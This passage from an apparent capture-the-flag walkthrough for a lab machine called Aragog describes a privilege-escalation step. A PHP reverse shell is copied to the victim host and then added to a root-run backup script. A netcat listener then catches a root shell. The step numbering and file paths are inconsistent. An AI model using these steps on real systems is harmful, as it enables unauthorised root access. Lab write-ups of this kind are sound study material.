



5.2 Creating a reverse shell
1. Copy from you Kali Machine “/usr/share/webshells/php/php/php-reverse-shell.php” to the victim's machine.
$scp /usr/share/webshells/php/php-reverse-shell.php hagrid98@192.168.12.19:/tmp
2. Go to SSH connection shell.
3. Change the attacker IP editing the file “/tmp/php-reverse-shell.php” and save the file.

3. Make executable the file.
chmod +x php-reverse-shell.php
3. Add the following line to the “backup.sh” file.
“php /usr/share/wordpress/wp-content/plugins/wp-file-manager/lib/files/php-reverse-shell.php”
hagrid98@Aragog:~$cd /opt
hagrid98@Aragog:/opt$ nano .backup.sh
hagrid98@Aragog:/opt$ nano .backup.sh
Output:

4. On you Kali Machine run the following code.
$nc -lvp 1234
This will give you a “root reverse shell” as soon as the “backup” job ran again.
